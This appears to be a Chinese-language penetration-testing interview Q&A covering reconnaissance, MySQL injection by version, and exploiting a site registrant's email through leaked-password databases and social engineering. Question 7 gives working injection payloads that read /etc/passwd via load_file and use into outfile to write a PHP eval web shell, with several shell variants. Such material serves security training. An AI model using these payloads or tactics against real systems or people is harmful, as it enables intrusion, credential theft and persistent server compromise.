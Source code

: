 #### ✸ 1.拿到一个待检测的站，你觉得应该先做什么？  
收集信息：whois、网站源 IP、旁站、C 段网站、服务器系统版本、容器版本、 </br>
程序版本、数据库类型、二级域名、防火墙、维护者信息另说...  </br>

#### ✸ 2.mysql 的网站注入，5.0 以上和 5.0 以下有什么区别？  
5.0 以下没有 information_schema 这个系统表，无法列表名等，只能暴力跑表名；5.0 以下是多用户单操作，5.0 以上是多用户多操做。  

#### ✸ 3.在渗透过程中，收集目标站注册人邮箱对我们有什么价值？  
    (1)丢社工库里看看有没有泄露密码，然后尝试用泄露的密码进行登录后台  </br>
    (2)用邮箱做关键词进行丢进搜索引擎  </br>
    (3)利用搜索到的关联信息找出其他邮箱进而得到常用社交账号  </br>
    (4)社工找出社交账号，里面或许会找出管理员设置密码的习惯   </br>
    (5)利用已有信息生成专用字典  </br>
    (6)  观察管理员常逛哪些非大众性网站，拿下它，你会得到更多好东西  </br>

#### ✸ 4.判断出网站的 CMS 对渗透有什么意义？  
    查找网上已曝光的程序漏洞,如果开源，还能下载相对应的源码进行代码审计。  

#### ✸ 5.一个成熟并且相对安全的 CMS ，渗透时扫目录的意义？  
 (1)敏感文件、二级目录扫描  </br>
 (2)站长的误操作比如：网站备份的压缩文件、说明.txt、二级目录可能存放着其他站点  </br>

#### ✸ 6.常见的网站服务器容器?  
  IIS、Apache、nginx、Tomcat,weblogic、jboss  

#### ✸ 7.mysql 注入点，用工具对目标站直接写入一句话，需要哪些条件？  
    root 权限以及网站的绝对路径  </br>
load_file()读取文件操作  </br>
        前提：  </br>
        知道文件的绝对路径  </br>
        能够使用 union 查询  </br>
        对 web 目录有写的权限  </br>
        union select 1,load_file('/etc/passwd'),3,4,5#  </br>
        0x2f6574632f706173737764  </br>
        union select 1,load_file(0x2f6574632f706173737764),3,4,5#</br>  
        路径没有加单引号的话必须转换十六进制  </br>
        要是想省略单引号的话必须转换十六进制  </br>
into outfile 写入文件操作  </br>
 前提：  </br>
        文件名必须是全路径(绝对路径)  </br>
        用户必须有写文件的权限  </br>
        没有对单引号'过滤  </br>
        select '<?php @eval($_POST["admin"]); ?>' into outfile  'C:\Windows\tmp\8.php' </br> 
        路径里面两个反斜杠\可以换成一个正斜杠/  </br>
         PHP 语句没有单引号的话，必须转换成十六进制  </br>
        要是想省略单引号'的话,必须转换成十六进制  </br>
         <?php eval($_POST["admin"]); ?>  或者   <?php  eval($_GET["admin"]); ?>  </br>
 <?php @eval($_POST["admin"]); ?>  </br>
         <?php phpinfo(); ?>  </br>
         <?php eval($_POST["admin"]); ?>  </br>
            建议一句话 PHP 语句转换成十六进制  </br>
